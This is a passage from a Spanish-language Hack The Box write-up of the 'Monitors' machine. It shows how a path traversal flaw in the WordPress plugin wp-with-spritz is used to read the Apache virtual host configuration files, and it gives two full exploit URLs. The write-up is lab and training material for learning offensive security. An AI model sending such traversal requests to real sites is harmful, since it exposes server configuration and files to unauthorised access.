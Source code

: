 Dado que `Apache` organiza la configuración de sitios virtuales en el directorio `/etc/apache2/sites-available/`, aquí es donde buscamos los archivos _.conf_ que definen cada dominio. Al revisar `monitors.htb.conf`, vemos que el dominio `monitors.htb` tiene configurada su raíz en `/var/www/wordpress`, tal como asumimos inicialmente al identificar el uso de `WordPress`. 

```
http://monitors.htb/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=../../../../../../etc/apache2/sites-enabled/monitors.htb.conf
```

![27](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/main/assets/2024-10-21-Monitors-Hack-The-Box/27.png){:class="blog-image" onclick="expandImage(this)"}

Por otro lado, al inspeccionar `cacti-admin.monitors.htb.conf`, descubrimos que el dominio `cacti-admin.monitors.htb` tiene su contenido ubicado en `/usr/share/cacti`.

```
http://monitors.htb/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=../../../../../../etc/apache2/sites-enabled/cacti-admin.monitors.htb.conf
```
